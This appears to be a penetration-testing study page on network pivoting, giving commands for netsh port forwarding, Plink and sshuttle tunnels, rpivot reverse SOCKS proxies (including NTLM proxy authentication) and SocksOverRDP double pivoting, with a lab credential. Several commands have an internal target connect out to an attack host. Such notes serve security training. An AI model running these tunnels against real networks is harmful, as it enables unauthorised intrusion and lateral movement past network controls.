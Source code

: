 ## Port Forwarding with Windows Netsh

![Alt text](Assets/88.png)

### Using Netsh.exe to Port Forward

```powershell
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25

## Verify Port Forward
netsh.exe interface portproxy show v4tov4
```

## SSH for Windows - Plink.exe

Plink, short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies. 

![Alt text](Assets/66.png)

### Using Plink.exe

```powershell
plink -ssh -D 9050 ubuntu@10.129.15.50
```

## SSH Pivoting with Sshuttle

Sshuttle is another tool written in Python which removes the need to configure proxychains. However, this tool only works for pivoting over SSH and does not provide other options for pivoting over TOR or HTTPS proxy servers. 

### Running Sshuttle

```bash
## With this command, sshuttle creates an entry in our iptables to redirect all traffic to the 172.16.5.0/23 network through the pivot host.

sudo sshuttle -r ubuntu@10.129.202.64 172.16.52.0/23 -v
```

## Web Server Pivoting with Rpivot

Rpivot is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. 

![Alt text](Assets/77.png)

### Installation / Requirements

```bash
## Cloning rpivot
sudo git clone https://github.com/klsecservices/rpivot.git

## Installing python2.7
sudo apt-get install python2.7
```

### Using Rpivot

```bash
## Run server.py from Attack Host
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

## Transferring rpivot to the Target
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/

## Running client.py from Pivot Target
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

### Browsing to Target Webseerver using Proxychains

```
proxychains firefox-esr 172.16.5.135:80
```

### Connecting to Web Server using HTTP-Proxy & NTLM Auth

There could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have HTTP-proxy with NTLM authentication configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password.

```bash
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

## Double Pivoting

### RDP and SOCKS Tunneling with SocksOverRDP

SocksOverRDP is an example of a tool that uses Dynamic Virtual Channels (DVC) from the Remote Desktop Service feature of Windows. DVC is responsible for tunneling packets over the RDP connection. 

Requirements:

- SocksOverRDP x64 Binaries [https://github.com/nccgroup/SocksOverRDP/releases]
- Proxifier Portable Binary [https://www.proxifier.com/download/#win-tab]

Connect to the target using xfreerdp and copy the SocksOverRDPx64.zip file to the target. From the Windows target, we will then need to load the SocksOverRDP.dll using regsvr32.exe.

```powershell
regsvr32.exe SocksOverRDP-Plugin.dll
```

Now we can connect to 172.16.5.19 over RDP using mstsc.exe, and we should receive a prompt that the SocksOverRDP plugin is enabled, and it will listen on 127.0.0.1:1080. We can use the credentials victor:pass@123 to connect to 172.16.5.19.

We will need to transfer SocksOverRDPx64.zip or just the SocksOverRDP-Server.exe to 172.16.5.19. We can then start SocksOverRDP-Server.exe with Admin privileges.

### Confirm the SOCKS Listener is Started

Go back to our foothold target and check with Netstat, we should see our SOCKS listener started on 127.0.0.1:1080.

```bash
netstat -antb | findstr 1080
```

After starting our listener, we can transfer Proxifier portable to the Windows 10 target (on the 10.129.x.x network), and configure it to forward all our packets to 127.0.0.1:1080. Proxifier will route traffic through the given host and port.

With Proxifier configured and running, we can start mstsc.exe, and it will use Proxifier to pivot all our traffic via 127.0.0.1:1080, which will tunnel it over RDP to 172.16.5.19, which will then route it to 172.16.6.155 using SocksOverRDP-server.exe.